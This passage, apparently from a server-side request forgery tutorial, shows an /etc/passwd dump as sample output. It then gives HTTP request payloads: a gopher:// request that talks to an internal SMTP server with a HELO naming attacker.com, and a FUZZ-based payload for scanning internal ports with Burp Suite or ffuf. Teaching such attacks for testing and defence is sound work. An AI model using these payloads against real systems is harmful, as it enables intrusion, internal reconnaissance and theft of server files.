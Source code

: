 #### **Possible Output:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **3. Exploiting with Uncommon Protocols (gopher://)**

A more advanced SSRF payload involves using the **gopher protocol**, which is often overlooked. This protocol can be used to communicate with different services like SMTP, databases, or even send arbitrary bytes to a target.

**Example Attack:**

We can try using the **gopher protocol** to send arbitrary requests to an internal **SMTP server** or other services:

```http
POST /fetchData HTTP/1.1
Host: webapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 456

dataUrl=gopher://127.0.0.1:25/_HELO+attacker.com
```

* **Expected Behavior:** The gopher protocol sends a request to the internal SMTP server running on port `25`.
* **Result:** If successful, this could potentially allow an attacker to communicate with internal services (e.g., SMTP server), trigger **remote interactions**, or even exfiltrate data.

***

### **Advanced Payloads and Scenarios**

#### **1. Port Scanning via SSRF**

One powerful way to exploit SSRF is **port scanning**. If an attacker knows or suspects that the web server can communicate with internal services, they can use SSRF to **enumerate open ports** on `localhost` or within the internal network.

**Advanced Payload (Port Scanning):**

```http
POST /fetchData HTTP/1.1
Host: webapp.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 456

dataUrl=http://127.0.0.1:FUZZ/
```

Here, `FUZZ` will be replaced with various port numbers to check if they are open. For example, an attacker can scan ports from `1` to `10000` using **Burp Suite** or a tool like **ffuf**.
